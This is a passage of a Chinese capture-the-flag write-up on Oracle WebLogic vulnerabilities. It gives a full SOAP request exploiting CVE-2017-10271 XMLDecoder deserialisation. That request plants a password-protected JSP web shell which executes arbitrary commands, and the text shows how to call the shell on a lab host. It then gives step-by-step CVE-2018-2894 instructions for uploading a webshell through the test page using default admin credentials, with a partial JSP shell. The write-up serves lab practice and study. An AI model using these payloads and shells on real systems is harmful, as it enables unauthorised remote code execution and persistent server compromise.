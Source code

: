 ```xml
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("bmth".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
`http://node3.buuoj.cn:29959/bea_wls_internal/test.jsp?pwd=bmth&cmd=ls`即可getshell
![](https://img-blog.csdnimg.cn/20210202211858691.png)

参考：
[Oracle WebLogic < 10.3.6 - 'wls-wsat' Component Deserialisation Remote Command Execution](https://www.exploit-db.com/exploits/43458)
[Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）](https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271)
[Weblogic XMLDecoder RCE分析](https://paper.seebug.org/487/)

#### [WebLogic]CVE-2018-2894
>受影响的版本：
weblogic 10.3.6.0、weblogic 12.1.3.0、weblogic 12.2.1.2、weblogic 12.2.1.3。

访问`http://your-ip:7001/console`，即可看到后台登录页面，管理员用户名为`weblogic`，密码为`weblogic1`，
登录后台页面，点击`base_domain`的配置，在"高级"中勾选 "启用 Web 服务测试页" 选项，然后保存配置
![](https://img-blog.csdnimg.cn/20210203211427617.png)
访问`http://your-ip:7001/ws_utc/config.do`，设置Work Home Dir为`/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css` **(将目录设置为ws_utc应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要)**
![](https://img-blog.csdnimg.cn/20210203211842579.png)
然后点击安全 -> 添加，然后上传webshell，可以不设置密码
![](https://img-blog.csdnimg.cn/20210203212614821.png)
```javascript
<%@ page import="java.util.*,java.io.*,java.net.*"%>  <HTML><BODY>
<form action="" name="myform" method="POST" style="box-sizing: border-box; margin-top: 0px;"><input name="cmd" type="text" style="box-sizing: border-box !important; color: var(--text-color); font: inherit; margin: 0px;  padding-left: 4px; border: 1px solid rgba(146, 146, 146, 0.56);"> <input value="Send" type="submit" style="box-sizing: border-box !important; color: var(--text-color); font: inherit; margin: 0px;  padding-left: 4px; border: 1px solid rgba(146, 146, 146, 0.56); -webkit-appearance: button; cursor: pointer;"></form>

```